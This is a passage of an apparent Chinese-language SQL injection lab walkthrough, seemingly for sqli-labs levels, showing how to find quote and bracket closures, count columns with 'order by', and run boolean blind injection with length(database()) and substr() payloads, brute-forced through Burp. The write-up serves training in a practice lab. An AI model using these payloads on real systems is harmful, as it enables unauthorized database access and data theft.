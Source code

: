 ![img](https://s2.loli.net/2024/11/24/Uf4yEAcQ5VmoPSR.png)

发现报错信息中出现了括号，尝试1')，成功显示

![img](https://s2.loli.net/2024/11/24/Mlev5Z9YU63xWaV.png)

输入:?id=1') order by 3-- +,页面回显正常

输入输入:?id=1') order by 4-- +,页面回显错误

接下来正常注入即可。

#### 4

输入1和1'正常，输入1"出现报错

![img](https://s2.loli.net/2024/11/24/n5rsgtEcVmWXBeZ.png)

尝试1" and "1"="2

出现不同选项

表明注入为双引号注入

之后正常注入即可

![img](https://s2.loli.net/2024/11/24/YFea2KtHIkGBQqD.png)

#### 5

出现如下选项

![img](https://s2.loli.net/2024/11/24/RpkO9x8bdjXui2E.png)

猜测可能是盲注的简化版本，

推出是单引号闭合，

##### 使用相关函数进行库长度猜测

```sql
1' and length(database()) =n--+
```

当n=其他数字时无显示，当n=8时出现

![img](https://cdn.nlark.com/yuque/0/2024/png/42552309/1732435580595-3f0e03fa-3c67-4983-ba8d-6b0547e01eea.png)

因此判断数据库名称长度为8

##### 之后逐个查看数据库字符

```sql
id=1' and substr(database(),1,1)='s' --+
```

第一个为位置,第二个为长度，第三个为字符猜测

这里对第1和第3个加入burp进行爆破
